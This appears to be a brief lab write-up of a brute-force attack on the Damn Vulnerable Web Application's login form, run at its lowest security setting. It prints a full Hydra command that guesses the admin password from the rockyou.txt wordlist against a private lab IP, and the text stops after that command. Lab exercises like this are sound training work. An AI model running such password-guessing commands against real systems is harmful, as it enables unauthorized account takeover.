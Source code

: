 ## 📌 Scenario 1: DVWA Brute Force Attack

**Objective**  
Assess the effectiveness of authentication controls by simulating a brute-force attack against DVWA’s login form.

**Methodology**  
- Target application: Damn Vulnerable Web Application (DVWA)  
- Security level: *Low*  
- Attack type: HTTP POST brute force  

**Tools Used**  
- Hydra  
- Kali Linux wordlist (`rockyou.txt`)  

**Execution**  
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.30 \
http-post-form "/DVWA/login.php:username=^USER^&password=^PASS^:Login failed"
